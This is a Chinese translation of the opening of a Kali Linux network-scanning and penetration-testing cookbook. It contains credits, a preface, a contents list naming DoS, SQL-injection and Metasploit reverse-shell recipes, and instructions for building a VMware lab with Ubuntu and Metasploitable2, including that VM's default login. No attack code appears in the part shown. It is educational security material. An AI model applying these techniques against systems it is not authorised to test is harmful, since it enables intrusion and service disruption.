# Kali Linux 网络扫描秘籍


超过 90 多个实战教程，详细解释了如何利用 Kali Linux 中的自定义脚本和集成工具来有效掌握网络扫描

伯明翰 - 孟买


## 鸣谢

### 作者
Justin Hutchens

### 项目协调员
Shipra Chawhan
Sanchita Mandal

### 审核员
Daniel W. Dieterle

### 校对员
Eli Dobou
Simran Bhogal
Adriano dos Santos Gregório
Ameesha Green
Javier Pérez Quezada
Lauren Harkins
Ahmad Muammar WK
Bernadette Watkins

### 策划编辑
### 索引员
Jullian Ursell
Tejal Soni

### 采购编辑
### 图设计
Subho Gupta
Ronak Dhruv

### 内容开发编辑
制作协调员
Govindan K
Kyle Albuquerque
Aparna Bhagat

### 技术编辑
Mrunal Chavan
Manu Joseph
Sebastian Rodrigues

### 封面设计
Gaurav Thingalaya
Aparna Bhagat

### 文字编辑
Janbal Dharmaraj
Insiya Morbiwala
Aditya Nair
Karuna Narayanan
Laxmi Subramanian

## 关于作者

Justin Hutchens 目前担任安全顾问，定期为各类客户提供渗透测试和安全评估。他曾任职美国空军，担任入侵检测专家、网络漏洞分析师和恶意软件取证调查员，负责拥有超过 55,000 个联网系统的大企业网络。他拥有信息技术学士学位和多项专业信息安全认证，包括注册信息系统安全专家 (CISSP)、攻击安全认证专业 (OSCP)、eLearnSecurity Web 渗透测试员 (eWPT)、GIAC 认证事件响应 (GCIH)、认证网络防御架构师 (CNDA)、认证黑客 (CEH)、EC-Council 认证安全分析师 (ECSA) 以及计算机黑客调查员 (CHFI)。他还是 Packt Publishing 视频课程 `Kali Linux - Backtrack Evolved: Assuring Security by Penetration Testing` 的作者和制片人。

## 关于审核员

Daniel W. Dieterle 是一位国际知名的安全作者、研究人员和技术编辑。他拥有 20 多年的 IT 经验，为从小型企业到大型企业的众多公司提供过各种级别的支持和服务。他编写并运营 Cyber Arms – 安全博客 (`cyberarms.wordpress.com`)。

Eli Dobou 是一位年轻的信息系统安全工程师。他来自多哥（西非）。他于 2011 年在中国重庆大学获得了第一个软件工程硕士学位。两年后，他在法国利物旭大学获得了密码学和信息安全的第二个硕士学位。目前他在法国担任信息安全顾问。

Adriano dos Santos Gregório 是一位操作系统专家，对新技术充满好奇，并对移动技术充满热情。自 1999 年成为 Unix 管理员以来，他专注于网络项目，重点关注各种网络环境和数据库的物理及逻辑安全，并担任 `Kali Linux Cookbook`（Willie L. Pritchett 和 David De Smet 著，Packt Publishing）的评审。他是微软认证的 MCSA 和 MCT 校友。

感谢我的父亲 Carlos 和我的母亲 Flausina。

Javier Pérez Quezada 是 Dreamlab Technologies (`www.dreamlab.net`) 的研发总监。他是 8.8 安全会议 (`www.8dot8.org`) 的创始人和组织者。他的专长包括 Web 安全、渗透测试、伦理黑客、漏洞评估、无线安全、安全审计源码、安全编程、安全咨询、电子银行安全、数据保护咨询、NFC、EMV、POS、咨询 ISO / IEC 27001、ITIL、OSSTMM 版本 3.0、BackTrack 以及 Kali Linux。他拥有 CSSA、CCSK、CEH、OPST 和 OPSA 认证。他还是拉丁洲 ISECOM OSSTMM 的讲师 (`www.isecom.org`)。他的著作还包括：
- `Kali Linux Cookbook`，Willie L. Pritchett 和 David De Smet，Packt Publishing
- `Kali Linux CTF Blueprints`，Cameron Buchanan，Packt Publishing
- `Mastering Digital Forensics with Kali Linux`，Massimiliano Sembiante，Packt Publishing（尚未出版）

Ahmad Muammar WK 是一名独立的 IT 安全顾问和渗透测试员。他深耕信息安全领域已超过 10 年。他持有 OSCP 和 OSCE 认证。他是 ECHO (`http://echo.or.id/`) 的创始人之一（这是印度尼西亚最老的计算机安全社区之一），也是 IDSECCONF (`http://idsecconf.org`)——印尼西亚最大的年度安全会议的创始人之一。他在印尼西亚计算机安全界闻名。他是 `Kali Linux Cookbook`（Willie L. Pritchett 和 David De Smet 著，Packt Publishing）的审核员之一。可以通过电子邮件 `y3dips@echo.or.id` 或 Twitter @y3dips 与联系。

`www.PacktPub.com`

### 支持文件、电子书、优惠等

您可能希望访问 `www.PacktPub.com` 获取与书籍相关的支持文件和下载。

您知道吗？Packt 提供每本书的电子版本的 PDF 和 ePub 文件。您可以在 `www.PacktPub.com` 升级到电子版，作为纸质书客户，有权获得电子版的折扣。请联系 `service@packtpub.com` 了解更多详情。

在 `www.PacktPub.com` 上，您还可以阅读免费技术文章集，订阅一系列免费新闻邮件，并接收 Packt 书籍的专属折扣和优惠。

TM
`http://PacktLib.PacktPub.com`

您需要 IT 问题的即时解决方案吗？PacktLib 是 Packt 的在线数字书库。在这里，您可以访问、阅读和搜索 Packt 的整个图书库。

### 为什么要订阅？
- 全面搜索 Packt 出版的每本书
- 复制、粘贴、打印和书签内容
- 按需提供并可通过网络浏览器访问
- Packt 账户持有者免费访问

如果您在 `www.PacktPub.com` 拥有 Packt 账户，您今天可以使用它访问 PacktLib 并查看九本完全免费的书。

## 免责声明

书中的内容仅供教学目的。它旨在帮助用户测试其系统应对信息安全威胁的能力，并保护其 IT 基础设施免受类似的攻击。Packt Publishing 和本书作者对不当使用书中学习材料所导致的行为不承担任何责任。

## 目录

序言 1

第一章：入门
7


## 使用 VMware Player (Windows) 配置安全实验室
7

# 使用 VMware Fusion (Mac OS X) 配置安全实验室
13

## 安装 Ubuntu Server
16

# 安装 Metasploitable2
20

## 安装 Windows Server
22

## 增加 Windows 攻击面
24

## 安装 Kali Linux
27

## 配置和使用 SSH
31

# 在 Kali Linux 上安装 Nessus
35

## 在 Kali Linux 上配置 Burp Suite
39

## 使用文本编辑器（VIM 和 Nano）
42

# 第二 2 章：发现扫描
45

### 使用 `Scapy` 进行二层发现
49

### 使用 `ARPing` 进行二层发现
58

### 使用 `Nmap` 进行二层发现
63

### 使用 `NetDiscover` 进行二层发现
66

### 使用 `Metasploit` 进行二层发现
69

### 使用 `ICMP` ping 进行三层发现
73

### 使用 `Scapy` 进行三层发现
78

### 使用 `Nmap` 进行三层发现
87

### 使用 `fping` 进行三层发现
90

### 使用 `hping3` 进行三层发现
94

### 使用 `Scapy` 进行四层发现
100

### 使用 `Nmap` 进行四层发现
111

### 使用 `hping3` 进行四层发现
115

# 第 3 章：端口扫描
125

### UDP 端口扫描
126

### TCP 端口扫描
126

### 使用 `Scapy` 进行 UDP 扫描
129

### 使用 `Nmap` 进行 UDP 扫描
136

### 使用 `Metasploit` 进行 UDP 扫描
140

### 使用 `Scapy` 进行隐蔽扫描
145

### 使用 `Nmap` 进行隐蔽扫描
153

### 使用 `Metasploit` 进行隐蔽扫描
160

### 使用 `hping3` 进行隐蔽扫描
167

### 使用 `Scapy` 进行连接扫描
170

### 使用 `Nmap` 进行连接扫描
178

### 使用 `Metasploit` 进行连接扫描
184

### 使用 `Dmitry` 进行连接扫描
192

### 使用 `Netcat` 进行 TCP 端口扫描
195

### 使用 `Scapy` 进行僵尸扫描
199

### 使用 `Nmap` 进行僵尸扫描
204

# 第 4 章：指纹识别
209

### 使用 `Netcat` 获取 Banner
211

### 使用 `Python` 套接字获取 Banner
213

### 使用 `Dmitry` 获取 Banner
217

### 使用 `Nmap` NSE 脚本获取 Banner
220

### 使用 `Amap` 获取 Banner
221

### 使用 `Nmap` 服务识别
224

### 使用 `Amap` 服务识别
226

### 使用 `Scapy` 识别操作系统
230

### 使用 `Nmap` 识别操作系统
237

### 使用 `xProbe2` 识别操作系统
238

### 使用 `p0f` 进行被动操作系统识别
241

### 使用 `Onesixtyone` 进行 SNMP 分析
244

### 使用 `SNMPwalk` 进行 SNMP 分析
245

### 使用 `Scapy` 进行防火墙识别
247

### 使用 `Nmap` 进行防火墙识别
262

### 使用 `Metasploit` 进行防火墙识别
264

# 第 5 章：漏洞扫描
269

### 使用 `Nmap` 脚本引擎进行漏洞扫描
270

### 使用 `MSF` 辅助模块进行漏洞扫描
276

### 使用 `Nessus` 创建扫描策略
280

### 使用 `Nessus` 进行漏洞扫描
283

### 使用 `Nessuscmd` 进行命令行扫描
288

### 通过 `HTTP` 交互验证漏洞
291

### 通过 `ICMP` 交互验证漏洞
293

# 第 6 章：拒绝服务
297

### 通过模糊测试识别缓冲区溢出
298

### 远程 FTP 服务缓冲区溢出 DoS
302

### Smurf DoS 攻击
305

### DNS 放大 DoS 攻击
309

### SNMP 放大 DoS 攻击
320

### NTP 放大 DoS 攻击 
330

### SYN 洪水 DoS 攻击
332

### Sock 压力 DoS 攻击
339

### 使用 `Nmap` NSE 进行 DoS 攻击
344

### 使用 `Metasploit` 进行 DoS 攻击
348

### 使用漏洞数据库进行 DoS 攻击
354

# 第 7 章：Web 应用扫描
359

### 使用 `Nikto` 进行 Web 应用扫描
360

### 使用 `SSLScan` 进行 SSL/TLS 扫描
363

### 使用 `SSLyze` 进行 SSL/TLS 扫描
366

### 使用 `Burp Suite` 定义 Web 应用目标
369

### 使用 `Burp Suite` 蜘蛛
371

### 使用 `Burp Suite` 渗透工具
373

### 使用 `Burp Suite` 代理
375

### 使用 `Burp Suite` Web 应用扫描器
376

### 使用 `Burp Suite` 侵入器 (Intruder)
378

### 使用 `Burp Suite` 比较器 (Comparer)
381

### 使用 `Burp Suite` 重复器 (Repeater)
382

### 使用 `Burp Suite` 解码器 (Decoder)
386

### 使用 `Burp Suite` 序列器 (Sequencer)
387

### 使用 `sqlmap` 进行 GET 方法 SQL 注入
390

### 使用 `sqlmap` 进行 POST 方法 SQL 注入
394

### 使用 `sqlmap` 请求捕获注入
397

### 自动化 CSRF 测试
399

### 通过 `HTTP` 流量验证命令注入漏洞
402

### 通过 `ICMP` 流量验证命令注入漏洞
404

# 第 8 章：自动化 Kali 工具
407

### `Nmap` 可 grep 输出结果分析
407

### 针对性执行 NSE 脚本的 `Nmap` 端口扫描
410

### 使用 `MSF` 破解进行 `Nmap` NSE 漏洞扫描
413

### 使用 `MSF` 破解进行 `Nessuscmd` 漏洞扫描
416

### 使用反向 Shell 负载进行多线程 `MSF` 破解
419

### 使用后门执行文件进行多线程 `MSF` 破解
422

### 使用 `ICMP` 验证进行多线程 `MSF` 破解
424

### 使用创建管理员账户进行多线程 `MSF` 破解
426

# 前言
在过去的几十年里，黑客攻击和网络犯罪的面貌发生了巨大的变化。在 20 世纪末，很多人不知道什么是网络犯罪。那些人认为黑客是躲在昏暗地下室里、用二进制语言说话的邪恶数学天才。但直到最近，我们看到了一类全新黑客的兴起。由于黑客软件和工具的公开，新时代的黑客可能就是你的邻居、当地的加油站服务员，甚至是你 12 岁的孩子。诸如低轨道离子炮（`LOIC`）之类的脚本小子工具已被用于对大型公司和组织发起大规模分布式拒绝服务（DDoS）攻击。这个免费的 Windows 下载程序只需要求输入目标 URL，其图形界面与太空时代的视频游戏惊地相似。

在一个黑客攻击变得如此简单、以至于小孩子都能做的世界里，组织通过使用网络犯罪分子攻击他们时相同的工具测试自己的网络来验证自身的防护水平是至关重要的。但是，仅仅掌握这些工具的基本用法不足以成为一名有效的信息安全专业人员。信息安全专业人员必须理解这些工具所采用的技术，以及为什么这些技术能够利用网络或系统中的各种漏洞。了解解释这些常用攻击工具工作原理的基础底层原理，使人能够有效地使用它们，但更重要的是，这也有助于人们有效地识别并防御此类攻击。

本书的意图是列举并解释 `Kali Linux` 平台中常用攻击工具的使用，但更重要的是，本书还旨在解决定义这些工具为何有效的底层原理。除了介绍集成到 `Kali Linux` 中的高功能工具外，我们还将创建大量的 `Python` 和 `bash` 脚本，这些脚本可以用于执行类似的功能和/或简化现有工具流程。

最终，本书的意图是通过通过地理解对手，帮助培养出更强大的安全专业人员。

## 前言：本书内容

`第 1 章` `入门` 介绍了全书其余部分将使用的底层原理和概念。

`第 2 章` `发现扫描` 涵盖了用于识别目标网络上的活动系统的技术和扫描工具，通过执行二层、三层和四层发现来实现。

`第 3 章` `端口扫描` 包含了用于枚举目标系统上运行的 UDP 和 TCP 服务的技术和扫描工具。

`第 4 章` `指纹识别` 解释了用于识别目标系统运行的操作系统和服务的技术和扫描工具。

`第 5 章` `漏洞扫描` 涵盖了用于识别和枚举目标系统上潜在漏洞的技术和扫描工具。

`第 6 章` `拒绝服务` 介绍了用于利用目标系统上识别出的拒绝服务漏洞的技术和攻击工具。


# 第 7 章：Web 应用程序扫描
提供了用于识别和利用目标系统上 Web 应用程序漏洞的技术和工具。

# 第 8 章：Kali 工具自动化
介绍了脚本技术，这些技术可用于简化和自动化 Kali Linux 中现有工具的使用。

## 阅读此书所需的准备

为了完成书中提到的练习或进行更深入的探索，你将需要以下组件：

- 一台配置充足的单个人电脑（Mac、Windows 或 Linux），其资源需要足够，并可以在多个虚拟机之间共享。你至少应该拥有 2 GB 内存。为了获得最佳性能，建议使用 8 到 16 GB 内存的系统。还建议使用多处理器和/或多核心。
- 如果你在资源有限的系统上运行，请尝试在完成练习时尽量减少同时运行的虚拟机数量。
- 一个虚拟化软件，用于运行你的安全实验室环境。一些可用选项包括：
    - VMware Fusion (Mac OS X)
    - VMware Player (Windows)
    - Oracle VirtualBox (Windows, Mac OS X, 或 Linux)
- 多个要在安全实验室环境中运行的操作系统。每个操作系统的获取和安装都将在`第 1 章，入门指南`中详细讨论。需要的操作系统包括：
    - Kali Linux
    - Metasploitable2
    - 一个 Ubuntu 服务器
    - Windows OS（建议使用 Windows XP SP2）

## 本书适用读者

本书适用于以下用户：
- 信息技术专业人士
- 信息安全专业人士
- 业余安全或技术爱好者

本书假设读者对渗透测试、Linux、脚本和 TCP/IP 网络了解很少或完全没有。书中的每个章节在讨论应用这些技术之前，都会先介绍底层原理。

## 惯例

在书中，你会发现多种风格的文本，以区分不同类型的信息。以下是这些风格的示例及其含义。

文本中的代码单词、数据库表名、文件夹名、文件名、文件扩展名、路径名、虚位 URL、用户输入和 Twitter 句柄显示如下：
“可以使用 `ls` 命令来查看当前目录的内容。”

代码块设置如下：
```python
#! /usr/bin/python
name = raw_input("What is your name?\n")
print "Hello " + name
```

任何命令行输入或输出如下所示：
```bash
# root@KaliLinux:~# ./test.py
What is your name?
Justin
Hello Justin
```

新术语和重要词汇将加粗显示。你在屏幕上、菜单或对话框中看到的单词将以这种形式出现在文中：“一旦你打开了 VMware Player，就可以选择‘新建虚拟机’来开始。”

警告或重要注释将以此类框的形式出现。提示和技巧如下所示。

## 读者反馈

我们随时欢迎读者的反馈。让我们知道你对这本书的看法——你喜欢或可能不喜欢的地方。读者反馈对于我们开发让你受益匪浅的书目至关重要。

要向我们发送通用反馈，只需向 `feedback@packtpub.com` 发送电子邮件，并在邮件主题中注明书名。

如果你在某个领域拥有专长，并兴趣编写或贡献书籍，请参阅我们在 `www.packtpub.com/authors` 上的作者指南。

## 客户支持

现在你已经是 Packt 书籍的荣幸主人，我们有很多方法可以帮助你从购买中获益。

### 下载示例代码
你可以从 `http://www.packtpub.com` 账户下载你购买的所有 Packt 书籍的示例代码文件。如果你在其他地方购买了本书，可以访问 `http://www.packtpub.com/support` 并注册，以便文件直接通过电子邮件发送给你。

### 错误勘正 (Errata)
尽管我们尽力确保内容的准确性，但错误在所避免。如果你在我们的某本书中发现错误——可能是文本或代码中的错误——如果你能向我们报告，我们将不胜感激。通过这样做，你可以避免其他读者感到困扰，并帮助我们改进本书的后续版本。如果你发现任何错误勘正，请访问 `http://www.packtpub.com/submit-errata`，选择你的书籍，点击错误提交表链接链接并输入错误详情。一旦你的错误通过验证，你的提交将被接受，错误将上传到我们的网站上，或添加到该书“错误勘正”部分下的现有错误列表中。你可以通过 `http://www.packtpub.com/support` 选择你的书来查看现有的错误。

### 盗版
互联网上对版权材料的盗版是所有媒体中持续存在的问题。在 Packt，我们非常重视对版权和许可的保护。如果你在互联网上发现我们作品的任何形式的非法复制，请立即提供位置地址或网站名称，以便我们采取补救措施。

请通过 `copyright@packtpub.com` 联系我们，并附上疑似盗版材料的链接。感谢你帮助保护我们的作者，以及我们为你提供价值内容的能力。

### 问题
如果你在书的任何方面遇到问题，可以通过 `questions@packtpub.com` 联系我们。

# 第 1 章：入门指南

第一章涵盖设置和配置虚拟安全实验室的基础知识，该实验室可用于练习书中提到的大部分场景和练习。

本章涵盖的主题包括虚拟化软件的安装、在虚拟环境中安装各种系统，以及练习将使用的某些工具的配置。本章将涵盖以下配方：
- 使用 VMware Player (Windows) 配置安全实验室
- 使用 VMware Fusion (Mac OS X) 配置安全实验室
- 安装 Ubuntu Server
- 安装 Metasploitable2
- 安装 Windows Server
- 增加 Windows 攻击面
- 安装 Kali Linux
- 配置和使用 SSH
- 在 Kali Linux 上安装 Nessus
- 在 Kali Linux 上配置 Burp Suite
- 使用文本编辑器（VIM 和 Nano）

## 使用 VMware Player (Windows) 配置安全实验室

你可以通过在 Windows 工作站上安装 VMware Player，在可用资源相对较少的 Windows PC 上运行虚拟安全实验室。你可以免费获取 VMware Player，或者以低价获取功能更强大的替代品 VMware Player Plus。

### 准备工作
要在你的 Windows 工作站上安装 VMware Player，你首先需要下载该软件。免费版 VMware Player 的下载地址可以在 `https://my.vmware.com/web/vmware/free` 找到。从该页面向下滚动到 VMware Player 链接并点击下载。在下一个页面上，选择 Windows 32 位或 64 位安装包，然后点击下载。也有适用于 Linux 32 位和 64 位系统的安装包可用。

### 如何操作……
一旦下载了软件包，你应该应该在默认下载目录中找到它。双击该目录中的可执行文件以开始安装过程。一旦启动，只需按照屏幕上的指示即可完成安装。


安装完成后，你应该可以通过访问桌面图标、快速启动图标或在“所有程序”中浏览来启动 VMware Player。加载后，你将看到虚拟机库。此库此时不会包含任何虚拟机，但当你从屏幕左侧创建它们时，它们就会填充在其中，如下截图所示：

8




# 第 1 章

一旦打开 VMware Player，你就可以选择`Create a New Virtual Machine`（创建虚拟机）来开始。这将初始化一个非常易用的虚拟机安装向导：

你在安装向导中需要执行的第一项任务是定义安装介质。你可以选择直接从宿主机的光驱器安装，也可以使用 ISO 镜像文件。本节讨论的大部分安装都将使用 ISO 文件，获取这些文件的地方将在每个具体的配方中提到。现在，假设我们已经浏览到一个现有的 ISO 文件并点击了`Next`（下一步），如下截图所示：

9


## 入门

接下来，你需要为虚拟机分配一个名称。虚拟机名称仅仅是一个任意值，作为标签来识别并将其与库中的其他虚拟机区分来。由于安全实验室通常根据多种不同的操作系统进行分类，因此将操作系统作为虚拟机名称的一部分可能会很有。下面的截图显示了`Specify Disk Capacity`（指定磁盘容量）窗口：

下一个屏幕请求输入安装的最大大小值。虚拟机将仅根据需要消耗硬盘空间，但不会超过此处指定的值。

此外，你还可以定义虚拟机是包含在单个文件中，还是分布在多个文件中。一旦你指定了磁盘容量，你就会得到下面的截图：

10



# 第 1 章

最后一步提供了配置的摘要。你可以选择`Finish`（完成）按钮来完成虚拟机的创建，或者选择`Customize Hardware…`（自定义硬件…）按钮来操作更高级的配置。请查看以下截图以了解高级配置：

11



## 入门

高级配置设置让你对共享资源、虚拟硬件配置和网络进行完全控制。绝大多数默认配置对于你的安全实验室来说已经足够了，但如果以后需要更改，可以通过访问虚拟机设置来重新调整这些配置。当你完成高级配置设置后，你会得到下面的截图：

安装向导完成后，你应该会在虚拟机库中看到列出的新虚拟机。从这里，现在可以通过点击播放按钮启动它。

通过打开多个 VMware Player 实例并在每个实例中运行一个唯一的虚拟机，可以同时运行多个虚拟机。

### 工作原理……

VMware 创建了一个虚拟化环境，在该环境中，单个宿主系统的资源可以共享以创建一个整个网络环境。像 VMware 这样的虚拟化软件已让为个人独立学习构建安全实验室变得更加容易且廉价了。

12


# 第 1 章

## 使用 VMware Fusion 配置安全实验室 (Mac OS X)

你也可以通过在 Mac 上安装 VMware Fusion 在 Mac OS X 上相对轻松地运行虚拟安全实验室。VMware Fusion 确实需要购买许可证，但它的价格非常合理。

### 准备工作

要在 Mac 上安装 VMware Player，你首先需要下载该软件。要下载免费试用版或购买软件，请访问以下 URL：`https://www.vmware.com/products/fusion/`。

### 如何操作……

软件包下载完成后，你应该在默认下载目录中找到它。运行 `.dmg` 安装文件，然后按照屏幕上的指示进行安装。安装完成后，你可以从 Dock 栏或 Finder 中的“应用程序”目录启动 VMware Fusion。加载后，你将看到虚拟机库。此库此时不会包含任何虚拟机，但当你从屏幕左侧创建它们时，它们就会填充在其中。下面的截图显示了虚拟机库：

13


## 入门

要开始，点击屏幕左角的`Add`（添加）按钮，然后点击`New`（新建）。这将启动虚拟机安装向导。安装向导是一个简单的引导过程，用于设置你的虚拟机，如下截图所示：第一步要求你选择安装方法。VMware Fusion 提供了从磁盘或镜像（ISO 文件）安装的选项，或者提供了将现有系统迁移到新虚拟机的技术。对于本节讨论的所有虚拟机，你将选择第一个选项。

在选择第一个选项`Install from disc or image`（从磁盘或镜像安装）后，系统将提示选择要使用的安装磁盘或镜像。如果没有自动填充，或者自动填充的不是你想要安装的镜像，请点击`Use another disc or disc image`（使用其他磁盘或磁盘镜像）按钮。这将打开 Finder，允许你浏览并选择使用的镜像。获取特定系统镜像文件的地方将在本节后续的配方中讨论。最后，我们进入了`Finish`（完成）窗口：14




# 第 1 章

选择好要使用的镜像文件后，点击`Continue`（继续）按钮，将进入摘要屏幕。这将提供你所选配置的概述。如果你想更改这些设置，点击`Customize Settings`（自定义设置）按钮。否则，点击`Finish`（完成）按钮创建虚拟机。当你点击它时，会被要求保存与虚拟机关联的文件。你用于保存的名称将是虚拟机的名称，并显示在你的虚拟机库中，如下截图所示：

15

## 入门

随着你添加更多虚拟机，你会在左侧的虚拟机库中看到它们。通过选择任何虚拟机，可以通过顶部的`Start Up`（启动）按钮启动它。此外，你可以使用`Settings`（设置）按钮修改配置，或使用`Snapshots`（快照）按钮在不同时刻保存虚拟机。你可以通过从库中独立启动每个虚拟机来同时运行多个虚拟机。

### 工作原理……

通过在 Mac OS X 操作系统中使用 VMware Fusion，你可以创建一个虚拟化实验室环境，在 Apple 宿主机上创建一个整个网络环境。像 VMware 这样的虚拟化软件已让为个人独立学习构建安全实验室变得更加容易且廉价了。

## 安装 Ubuntu Server

Ubuntu Server 是一个易用的 Linux 发行版，可用于在安全实验室托管网络服务和/或测试漏洞软件。如果你有，，可以使用其他 Linux 发行版；然而，Ubuntu 是初学者的良好选择，因为有很多公开的参考资料和资源。

### 准备工作

在 VMware 中安装 Ubuntu Server 之前，你需要下载镜像磁盘（ISO 文件）。该文件可以通过 Ubuntu 网站的以下 URL 下载：`http://www.ubuntu.com/server`。

### 如何操作……


在镜像文件加载并从其启动虚拟机后，你将看到如下截图所示的默认 菜单。这包含了多个安装和诊断选项。可以使用键盘导航菜单。

对于标准安装，请确保 `Install Ubuntu Server` 选项被选中并按 `Enter`。


# 第 1 章

当安装过程开始时，你将被要求回答一系列问题，以定义系统配置。前两个选项要求你指定语言和居住国家。在回答这些问题后，你将被要求按照如下截图所示定义键盘布局配置：

有多种选项可以定义键盘布局。其中一种选项是“检测”（detection），系统会提示你按下一系列按键，以便 Ubuntu 检测到你正在使用的键盘布局。你可以通过点击 `Yes` 来使用键盘检测。或者，你也可以点击 `No` 手动选择键盘布局。系统会根据你的国家和语言默认选择最可能的选项，从而简化这一过程。定义键盘布局后，系统要求你为系统输入一个主机名（hostname）。如果你将把系统加入域，请确保主机名是唯一的。接下来，系统会要求输入新用户的全名和用户名。与用户全名不同，用户名应由单串小写字母组成。用户名中也可以包含数字，但数字不能作为开头。请看以下截图：17


## 入门

在提供新账户的用户名后，你将被要求提供密码。请确保密码是你能够记住的，因为你以后可能需要访问此系统来修改配置。请看以下截图：

提供密码后，系统将要求你决定是否对每个用户的家目录进行加密。虽然这提供了额外的安全保护层，但在实验室环境中并不是必需的，因为系统不会持有任何真实的敏感数据。接下来，你将被要求按照如下截图所示配置系统时钟：

尽管你的系统使用的是内部 IP 地址，但它会尝试确定其路由出去的公网 IP 地址，并利用此信息推测你所在的时区。如果 Ubuntu 提供的猜测正确，请选择 `Yes`；否则，请选择 `No` 手动选择时区。选择时区后，你将被要求按照如下截图所示定义磁盘分区配置：

18




# 第 1 章

如果没有特殊理由选择其他，建议选择默认选项。在安全实验室中，你可能不需要进行手动分区，因为每台虚拟机通常都会使用单一专用分区。选择分区方法后，系统将要求你选择磁盘。除非你为虚拟机添加了额外的磁盘，否则你在这里只会看到以下选项：

选择磁盘后，系统将要求你检查配置。核实一切无误后即可确认安装。在安装过程之前，你将被要求配置 HTTP 代理。就本书的而言，不需要单独的代理，你可以将此字段留空。最后，你将被要求按照如下截图所示，决定你是否想在操作系统上安装任何软件：

要选择任何特定软件，请使用 `Space` 键。为了增加攻击面，我包含了多个服务，仅排除了虚拟托管和额外的手动包选择。一旦你选择了所需的软件包，按 `Enter` 完成该过程。

### 工作原理……

Ubuntu Server 没有 GUI，完全由命令行驱动。为了有效使用它，建议你使用 `SSH`。要配置并使用 `SSH`，请参阅本节后面的 `Configuring and using SSH` 教程。

19


## 入门

# 安装 Metasploitable2

Metasploitable2 是一个故意存在漏洞的 Linux 发行版，也是一种非常高效的安全训练工具。它预装了大量的漏洞网络服务，还包含了几个漏洞 Web 应用程序。

### 准备工作

在你的虚拟安全实验室中安装 Metasploitable2 之前，你首先需要从网上下载它。有很多镜像站点和种子链接可以下载。获取 Metasploitable 的一种相对简单的方法是从以下 URL 从 SourceForge 下载：`http://sourceforge.net/projects/metasploitable/files/Metasploitable2/`。

### 如何操作

安装 Metasploitable2 可能是你在安全实验室中执行的最简单的安装之一。这是因为在从 SourceForge 下载时，它已经作为一个 VMware 虚拟机准备好了。一旦下载了 `ZIP` 文件，你可以分别在 Windows 的 `Explorer` 或 Mac OS X 的 `Finder` 中通过双击文件来轻松提取内容。请看以下截图：

解压后，`ZIP` 文件将返回一个包含五个额外文件的目录。这些文件中包含了 VMware 的 `VMX` 文件。要在 VMware 中使用 Metasploitable，只需点击 `File` 下拉菜单并点击 `Open`。然后，浏览到由 `ZIP` 解压过程创建的目录，并如下所示打开 `Metasploitable.vmx`：

20




# 第 1 章

打开 `VMX` 文件后，它应该包含在你的虚拟机库中。从库中选中并点击 `Run` 启动虚拟机进入如下屏幕：虚拟机加载后，将出现启动界面并请求登录凭据。默认登录用户名和密码均为 `msfadmin`。此机器也可以通过 `SSH` 访问，详见本节后面的 `Configuring and using SSH` 教程。

### 工作原理……

